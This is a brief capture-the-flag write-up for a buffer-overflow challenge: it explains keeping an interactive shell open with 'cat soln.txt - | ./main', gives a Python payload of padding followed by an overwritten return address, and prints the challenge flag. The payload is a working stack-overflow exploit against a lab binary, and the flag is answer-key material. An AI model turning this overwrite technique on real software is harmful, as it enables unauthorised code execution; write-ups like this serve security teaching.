 
Something to watch out for in this challenge: you can pipe the right input but you also need to mantain an interactive session to use the shell. To do so, you can do

```
cat soln.txt - | ./main
```


## Write-up

```python
addr = '\xa6\x06\x40\x00\x00\x00\x00\x00'
print 'b'*16 + 'z'*8 + addr
```

**flag:** treeCTF{eZXactLqwey_Tjis_hgiegh}
